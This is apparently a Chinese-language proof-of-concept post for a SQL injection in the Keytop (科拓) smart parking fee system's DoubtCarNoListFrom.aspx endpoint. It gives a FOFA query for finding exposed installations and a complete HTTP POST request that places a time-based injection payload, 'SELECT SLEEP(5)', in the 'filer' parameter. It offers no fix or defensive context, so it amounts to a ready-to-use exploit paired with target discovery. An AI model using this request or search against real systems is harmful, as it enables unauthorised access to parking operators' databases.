 # 科拓全智能停车收费系统DoubtCarNoListFrom.aspx存在SQL注入漏洞
## 资产搜索
fofa：`title="科拓全智能停车视频收费系统"`

![](img/index.png)

## POC
```url
POST /KT_Admin/CarCard/DoubtCarNoListFrom.aspx HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Content-Type: application/x-www-form-urlencoded
Connection: close

start=0&limit=20&filer=1;SELECT SLEEP(5)#
```